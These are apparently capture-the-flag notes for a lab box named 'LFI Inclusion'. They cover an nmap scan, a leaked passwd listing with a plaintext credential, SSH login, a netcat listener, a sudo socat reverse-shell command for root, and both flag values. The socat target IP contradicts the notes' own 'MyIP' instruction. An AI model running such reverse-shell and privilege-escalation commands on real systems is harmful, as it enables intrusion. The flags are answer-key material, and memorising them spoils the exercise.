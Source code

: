 
# BOX IP : 10.10.244.211

# Machine Name : LFI Inclusion

# Nmap 
Nmap scan report for 10.10.244.211  
Host is up (0.42s latency).  
Not shown: 999 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)  
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)  
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 102.00 seconds  


# ACCOUNT LIST
root:x:0:0:root:/root:/bin/bash  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
...
falconfeast:rootpassword  
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin  
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false  

user.flag : 0989655118397345799  


# foot hold
ssh falconfeast@10.10.244.211
password : rootpassword


# macOS Reverse Shell nc command
## nc -l 9999

# Privilege Escalate
RHOST : MyIP
RPORT : nc listen port

sudo socat tcp-connect:10.10.244.211:999 exec:/bin/sh,pty,stderr,setsid,sigint,sane

root.flag : 42964104845495153909